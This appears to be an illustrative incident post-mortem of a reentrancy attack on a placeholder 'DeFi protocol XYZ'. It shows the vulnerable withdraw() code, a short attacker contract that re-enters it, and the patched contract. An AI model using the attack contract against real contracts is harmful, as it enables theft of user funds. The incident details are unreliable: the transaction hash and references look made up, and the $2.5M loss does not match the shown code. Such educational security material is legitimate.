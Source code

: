 # Flash Loan Reentrancy Attack on DeFi Protocol XYZ

## Overview

On March 15, 2024, DeFi protocol XYZ experienced a sophisticated flash loan reentrancy attack, resulting in a loss of approximately $2.5M in user funds. The attacker exploited a vulnerability in the protocol's lending contract to perform multiple unauthorized withdrawals.

## Attack Details

The attack was executed through a series of carefully orchestrated transactions:

1. The attacker initiated a flash loan of 1000 ETH from Aave
2. Used the borrowed funds to deposit into XYZ's lending pool
3. Exploited a reentrancy vulnerability in the `withdraw()` function
4. Performed multiple withdrawals before the balance was updated
5. Repaid the flash loan and kept the stolen funds

## Technical Analysis

The vulnerability existed in the following smart contract code:

```solidity
function withdraw(uint256 amount) external {
    require(balances[msg.sender] >= amount, "Insufficient balance");
    (bool success, ) = msg.sender.call{value: amount}("");
    require(success, "Transfer failed");
    balances[msg.sender] -= amount;  // State update after external call
}
```

The critical issue was updating the user's balance after the external call, violating the Checks-Effects-Interactions pattern. This allowed the attacker's contract to make recursive calls to `withdraw()` before the balance was updated:

```solidity
contract AttackerContract {
    XYZProtocol public xyz;
    uint256 public count;

    function attack() external {
        // Initial deposit
        xyz.deposit{value: 1 ether}();
        // Start reentrancy
        xyz.withdraw(1 ether);
    }

    receive() external payable {
        if (count < 5) {
            count++;
            xyz.withdraw(1 ether);
        }
    }
}
```

## Impact

The attack had significant consequences:

- $2.5M in user funds stolen
- 1,500 users affected
- Protocol's TVL dropped by 45%
- XYZ token price decreased by 30%

## References

1. [Transaction Hash](https://etherscan.io/tx/0x123...789)
2. [XYZ Protocol Post-Mortem](https://xyz.protocol/blog/post-mortem-march-15)
3. [Independent Security Analysis by Trail of Bits](https://blog.trailofbits.com/xyz-analysis)
4. [CertiK Alert Report](https://certik.com/alerts/xyz-attack)

## Timeline

- 14:23 UTC: First suspicious transaction detected
- 14:25 UTC: Attack transactions executed
- 14:30 UTC: Protocol team alerted
- 14:45 UTC: All protocol functions paused
- 15:00 UTC: Initial security assessment completed
- 16:00 UTC: Preliminary post-mortem released

## Mitigation

The protocol team has implemented several measures:

1. Fixed the reentrancy vulnerability by updating state before external calls
2. Added ReentrancyGuard to all sensitive functions
3. Implemented additional security checks
4. Completed a full security audit
5. Enhanced monitoring systems

Updated contract code:

```solidity
contract XYZProtocol is ReentrancyGuard {
    function withdraw(uint256 amount) external nonReentrant {
        require(balances[msg.sender] >= amount, "Insufficient balance");
        balances[msg.sender] -= amount;  // State update before external call
        (bool success, ) = msg.sender.call{value: amount}("");
        require(success, "Transfer failed");
    }
}
```

